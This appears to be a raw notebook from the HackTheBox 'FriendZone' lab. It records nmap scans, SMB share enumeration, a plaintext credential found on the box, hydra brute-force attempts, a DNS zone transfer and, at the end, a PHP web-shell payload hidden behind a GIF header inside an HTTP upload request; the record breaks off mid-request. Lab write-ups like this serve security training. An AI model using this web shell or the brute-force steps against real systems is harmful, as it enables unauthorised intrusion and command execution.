# Nmap 7.91 scan initiated Wed Jan 27 14:17:33 2021 as: nmap -v -sC -sV -Pn -oN nmap 10.10.10.123                                                                                                                                                                                                                            
Nmap scan report for 10.10.10.123                                                                                                                                                                                                                                                                                            
Host is up (0.098s latency).                                                                                                                                                                                                                                                                                                 
Not shown: 993 closed ports                                                                                                                                                                                                                                                                                                  
PORT    STATE SERVICE     VERSION                                                                                                                                                                                                                                                                                            
21/tcp  open  ftp         vsftpd 3.0.3
22/tcp  open  ssh         OpenSSH 7.6p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 a9:68:24:bc:97:1f:1e:54:a5:80:45:e7:4c:d9:aa:a0 (RSA)
|   256 e5:44:01:46:ee:7a:bb:7c:e9:1a:cb:14:99:9e:2b:8e (ECDSA)
|_  256 00:4e:1a:4f:33:e8:a0:de:86:a6:e4:2a:5f:84:61:2b (ED25519)
53/tcp  open  domain      ISC BIND 9.11.3-1ubuntu1.2 (Ubuntu Linux)
| dns-nsid: 
|_  bind.version: 9.11.3-1ubuntu1.2-Ubuntu
80/tcp  open  http        Apache httpd 2.4.29 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Friend Zone Escape software
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
443/tcp open  ssl/http    Apache httpd 2.4.29
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: 404 Not Found
| ssl-cert: Subject: commonName=friendzone.red/organizationName=CODERED/stateOrProvinceName=CODERED/countryName=JO
| Issuer: commonName=friendzone.red/organizationName=CODERED/stateOrProvinceName=CODERED/countryName=JO
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2018-10-05T21:02:30
| Not valid after:  2018-11-04T21:02:30
| MD5:   c144 1868 5e8b 468d fc7d 888b 1123 781c
|_SHA-1: 88d2 e8ee 1c2c dbd3 ea55 2e5e cdd4 e94c 4c8b 9233
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
445/tcp open  netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
Service Info: Hosts: FRIENDZONE, 127.0.0.1; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: -37m33s, deviation: 1h09m16s, median: 2m25s
| nbstat: NetBIOS name: FRIENDZONE, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| Names:
|   FRIENDZONE<00>       Flags: <unique><active>
|   FRIENDZONE<03>       Flags: <unique><active>
|   FRIENDZONE<20>       Flags: <unique><active>
|   \x01\x02__MSBROWSE__\x02<01>  Flags: <group><active>
|   WORKGROUP<00>        Flags: <group><active>
|   WORKGROUP<1d>        Flags: <unique><active>
|_  WORKGROUP<1e>        Flags: <group><active>
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.7.6-Ubuntu)
|   Computer name: friendzone
|   NetBIOS computer name: FRIENDZONE\x00
|   Domain name: \x00
|   FQDN: friendzone
|_  System time: 2021-01-27T15:20:21+02:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-01-27T13:20:21
|_  start_date: N/A

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Jan 27 14:18:04 2021 -- 1 IP address (1 host up) scanned in 31.26 seconds




friendzone.red
sudo bash -c 'echo "10.10.10.123 friendzone.red" >> /etc/hosts'


<title>FriendZone escape software</title>

<br>
<br>


<center><h2>Ready to escape from friend zone !</h2></center>


<center></center>

<!-- Just doing some development here -->
<!-- /js/js -->
<!-- Don't go deep ;) -->


```
echo "V2FVSEJzYTkzeDE2MTE3NTQwMzhkS1A5VEdEWW1h" | base64 -d
WaUHBsa93x1611754038dKP9TGDYma
```
```html
<p>Testing some functions !</p><p>I'am trying not to break things !</p>V2FVSEJzYTkzeDE2MTE3NTQwMzhkS1A5VEdEWW1h<!-- dont stare too much , you will be smashed ! , it's all about times and zones ! -->
```




kali@kali:~/htb/boxes/friendzone/10.10.10.123$ smbmap -H 10.10.10.123
[+] Guest session       IP: 10.10.10.123:445    Name: friendzone.red                                    
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        print$                                                  NO ACCESS       Printer Drivers
        Files                                                   NO ACCESS       FriendZone Samba Server Files /etc/Files
        general                                                 READ ONLY       FriendZone Samba Server Files
        Development                                             READ, WRITE     FriendZone Samba Server Files
        IPC$                                                    NO ACCESS       IPC Service (FriendZone server (Samba, Ubuntu))





creds for the admin THING:

admin:WORKWORKHhallelujah@#


kali@kali:~/htb/boxes/friendzone/10.10.10.123$ crackmapexec smb -u users.txt -p passwords.txt --shares 10.10.10.123
SMB         10.10.10.123    445    FRIENDZONE       [*] Windows 6.1 (name:FRIENDZONE) (domain:) (signing:False) (SMBv1:True)
SMB         10.10.10.123    445    FRIENDZONE       [+] \admin:WORKWORKHhallelujah@# 
SMB         10.10.10.123    445    FRIENDZONE       [+] Enumerated shares
SMB         10.10.10.123    445    FRIENDZONE       Share           Permissions     Remark
SMB         10.10.10.123    445    FRIENDZONE       -----           -----------     ------
SMB         10.10.10.123    445    FRIENDZONE       print$                          Printer Drivers
SMB         10.10.10.123    445    FRIENDZONE       Files                           FriendZone Samba Server Files /etc/Files
SMB         10.10.10.123    445    FRIENDZONE       general         READ            FriendZone Samba Server Files
SMB         10.10.10.123    445    FRIENDZONE       Development     READ,WRITE      FriendZone Samba Server Files
SMB         10.10.10.123    445    FRIENDZONE       IPC$                            IPC Service (FriendZone server (Samba, Ubuntu))


kali@kali:~/htb/boxes/friendzone/10.10.10.123$ hydra -L users.txt -P passwords.txt ssh://10.10.10.123
Hydra v9.2-dev (c) 2021 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-01-27 14:40:05
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 6 tasks per 1 server, overall 6 tasks, 6 login tries (l:2/p:3), ~1 try per task
[DATA] attacking ssh://10.10.10.123:22/
1 of 1 target completed, 0 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-01-27 14:40:09


kali@kali:~/htb/boxes/friendzone/10.10.10.123$ hydra -L users.txt -P passwords.txt smb://10.10.10.123
Hydra v9.2-dev (c) 2021 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-01-27 15:01:02
[INFO] Reduced number of tasks to 1 (smb does not like parallel connections)
[DATA] max 1 task per 1 server, overall 1 task, 9 login tries (l:3/p:3), ~9 tries per task
[DATA] attacking smb://10.10.10.123:445/
[445][smb] Host: 10.10.10.123 Account: admin Error: Invalid account (Anonymous success)
[445][smb] Host: 10.10.10.123 Account: info Error: Invalid account (Anonymous success)
[445][smb] Host: 10.10.10.123 Account: root Error: Invalid account (Anonymous success)
1 of 1 target completed, 0 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-01-27 15:01:04


 smb-enum-shares: 
|   account_used: guest
|   \\10.10.10.123\Development: 
|     Type: STYPE_DISKTREE
|     Comment: FriendZone Samba Server Files
|     Users: 1
|     Max Users: <unlimited>
|     Path: C:\etc\Development
|     Anonymous access: READ/WRITE
|     Current user access: READ/WRITE
|   \\10.10.10.123\Files: 
|     Type: STYPE_DISKTREE
|     Comment: FriendZone Samba Server Files /etc/Files
|     Users: 0
|     Max Users: <unlimited>
|     Path: C:\etc\hole
|     Anonymous access: <none>
|     Current user access: <none>
|   \\10.10.10.123\IPC$: 
|     Type: STYPE_IPC_HIDDEN
|     Comment: IPC Service (FriendZone server (Samba, Ubuntu))
|     Users: 3
|     Max Users: <unlimited>
|     Path: C:\tmp
|     Anonymous access: READ/WRITE
|     Current user access: READ/WRITE
|   \\10.10.10.123\general: 
|     Type: STYPE_DISKTREE
|     Comment: FriendZone Samba Server Files
|     Users: 1
|     Max Users: <unlimited>
|     Path: C:\etc\general
|     Anonymous access: READ/WRITE
|     Current user access: READ/WRITE
|   \\10.10.10.123\print$: 
|     Type: STYPE_DISKTREE
|     Comment: Printer Drivers
|     Users: 0
|     Max Users: <unlimited>
|     Path: C:\var\lib\samba\printers
|     Anonymous access: <none>
|_    Current user access: <none>







kali@kali:~/htb/boxes/friendzone/10.10.10.123$ dig axfr @friendzone.red friendzone.red

; <<>> DiG 9.16.8-Debian <<>> axfr @friendzone.red friendzone.red
; (1 server found)
;; global options: +cmd
friendzone.red.         604800  IN      SOA     localhost. root.localhost. 2 604800 86400 2419200 604800
friendzone.red.         604800  IN      AAAA    ::1
friendzone.red.         604800  IN      NS      localhost.
friendzone.red.         604800  IN      A       127.0.0.1
administrator1.friendzone.red. 604800 IN A      127.0.0.1
hr.friendzone.red.      604800  IN      A       127.0.0.1
uploads.friendzone.red. 604800  IN      A       127.0.0.1
friendzone.red.         604800  IN      SOA     localhost. root.localhost. 2 604800 86400 2419200 604800
;; Query time: 100 msec
;; SERVER: 10.10.10.123#53(10.10.10.123)
;; WHEN: Wed Jan 27 15:13:58 CET 2021
;; XFR size: 8 records (messages 1, bytes 289)


kali@kali:~/htb/boxes/friendzone/10.10.10.123$ sudo bash -c 'echo "10.10.10.123 administrator1.friendzone.red" >> /etc/hosts'
kali@kali:~/htb/boxes/friendzone/10.10.10.123$ sudo bash -c 'echo "10.10.10.123 hr.friendzone.red" >> /etc/hosts'
kali@kali:~/htb/boxes/friendzone/10.10.10.123$ sudo bash -c 'echo "10.10.10.123 uploads.friendzone.red" >> /etc/hosts'
















https://gobiasinfosec.blog/2019/12/24/file-upload-attacks-php-reverse-shell/
Content-Disposition: form-data; name=”myFile”; filename=”payload.php.gif”
Content-Type: image/gif

GIF89a;
<?php system($_GET[‘c’]);?>


https://uploads.friendzone.red/upload.php

```
POST /upload.php HTTP/1.1
Host: uploads.friendzone.red
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------110488601112522664683183253771
Content-Length: 509
Origin: https://uploads.friendzone.red
Connection: close
Referer: https://uploads.friendzone.red/
Cookie: sid=306adeac-60aa-11eb-b39a-b34250770530
Upgrade-Insecure-Requests: 1
-----------------------------110488601112522664683183253771
Content-Disposition: form-data; name="imageu"; filename="rce.php.gif"
Content-Type: image/gif
GIF89a;
<?php system($_GET[‘c’]);?>
-----------------------------110488601112522664683183253771
Content-Disposition: form-data; name="image"
-----------------------------110488601112522664683183253771
